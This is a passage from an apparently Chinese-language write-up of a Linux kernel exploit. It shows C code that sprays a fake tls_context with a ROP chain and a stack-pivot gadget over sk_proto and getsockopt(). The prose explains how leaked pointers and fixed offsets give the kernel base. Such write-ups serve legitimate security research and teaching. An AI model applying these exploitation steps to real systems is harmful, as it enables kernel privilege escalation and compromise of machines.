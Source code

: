 ```plain
#define SK_PROTO_OFF (136)
    /* Prepare sk_proto overwrite, getsockopt() overwrite,
     * stack pivot, and ROP chain contents. */
    char *spray = (char *)mgr->spray;
    prepare_rop(&spray[8], kernel_base);
    *(uint64_t*)&spray[GETSOCKOPT_OFF] = kernel_base + STACK_PIVOT_OFF;;
    *(uint64_t*)&spray[SK_PROTO_OFF] = tls_context;

    ...

    return SUCC;
}
```

最后，我们提取出所有需要的信息，计算我们要用来覆盖`tls_context`对象的数据，为了更详细地说明此函数，我们分为两个阶段：

*   泄漏`tls_context`数据:
    *   `tls_context`列表头的next指针地址，这使我们能够通过从`list.next`中减去0x98来计算`tls_context`的地址，
    *   存储在`sk_proto`中的`tcp_prot`地址，这允许我们通过从`&tcp_prot`中减去0x180b660来计算内核基地址，
*   准备伪造的tls\_context数据：
    *   为了使用一组ROP小工具覆盖`tls_context`的一部分，
    *   覆盖`sk_proto`为`tls_context`地址，因此，现在`tls_context`对象的一部分包含了我们的虚假`proto`对象，
    *   使用一个栈旋转小工具的地址覆盖`sk_proto->getsockopt()`，请记住，由于某种魔法，`sk_proto == &tls_context`，虚假栈将从`tls_context`对象内部开始，具体来说就是我们编写ROP链的地方，  
        然后，我们将用我们的虚假`tls_context`重新分配以前被释放的`msg_msgseg`

[![](assets/1701612436-03b99833a3e78598646ffab864bb7a89.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230626154734-b6775c72-13f5-1.png)

正如我们所看到的，`tls_context`对象扮演了多个角色，它部分地是一个实现我们的堆栈旋转`getsockopt()`的虚假`proto`对象，它还部分地是一个虚假的堆栈，其中包含ROP链，

## 代码执行
